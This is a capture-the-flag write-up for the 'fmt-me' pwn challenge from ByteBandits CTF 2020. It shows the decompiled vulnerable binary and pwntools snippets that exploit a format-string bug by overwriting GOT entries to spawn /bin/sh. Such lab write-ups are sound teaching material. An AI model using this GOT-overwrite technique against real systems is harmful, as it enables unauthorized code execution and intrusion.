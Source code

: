 
## fmt-me
### Description

> Format strings are so 2000s. 
>
> nc [pwn.byteband.it](http://pwn.byteband.it) 6969


### Attachment

[fmt](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ByteBanditsCTF2020/pwn/fmt/fmt)

### Analysis

In `snprintf`, our input string (`buf`) will be formated to `other_buf` :

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  char buf; // [rsp+10h] [rbp-110h]
  unsigned __int64 v5; // [rsp+118h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  puts("Choose your name");
  puts("1. Lelouch 2. Saitama 3. Eren");
  printf("Choice: ", 0LL);
  if ( get_int() == 2 )
  {
    puts("Good job. I'll give you a gift.");
    read(0, &buf, 0x100uLL);
    snprintf(other_buf, 0x100uLL, &buf);
    system("echo 'saitama, the real hero'");
  }
  return 0;
}
```

> string will not print to `stdin`, so we can use `%ln` to write memory with any values directly

### Solution

#### infinite loop

First of all, as the binary closes after `system` function,  an `infinite loop` should be created.

We need overwrite GOT of `system` with address of `main` and it can be easily done by `fmtstr_payload` of `pwntools` :

```python
# infinite loop
fmt1 = fmtstr_payload(6,{elf.got['system']:elf.sym['main']},write_size='long')
sla('Choice: ','2')
sla('Good job. I\'ll give you a gift.',fmt1)
```

> after that we can repeat calling `snprintf` to do more thing.

#### overwrite GOT of `snprintf`

> As `snprintf` would not print any char to `stdin`,  it was hard to leak the base address of libc. 
>
> But we can use `system` function in binary instead of libc.

Overwrite GOT of `snprintf` with the original address in GOT of `system` (`system@plt+6`) 

```c
 ► 0x401070       <snprintf@plt>     jmp    qword ptr [rip + 0x2fc2] <0x401056>
    ↓
   0x401056       <system@plt+6>     push   2
   0x40105b       <system@plt+11>    jmp    0x401020
```

>  `dl_resolver` will resolve real address of system in libc then call it. 

When we construct the second format string, make sure that the beginning of our input string was `/bin/sh;`:

```python
fmt2 = '/bin/sh;'
fmt2+= fmtstr_payload(7,{elf.got['snprintf']:0x401056-8},write_size='long')
sla('Choice: ','2')
sla('Good job. I\'ll give you a gift.',fmt2)
```

> The string stored in `other_buf` was `/bin/sh;......` and will not changed when `snprintf` were called at next time

#### getshell

`system('/bin/sh;')` executed after any chars sent:

```python
sla('Choice: ','2')
sla('Good job. I\'ll give you a gift.','TaQini win')
```

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/ByteBanditsCTF2020/pwn/fmt) 


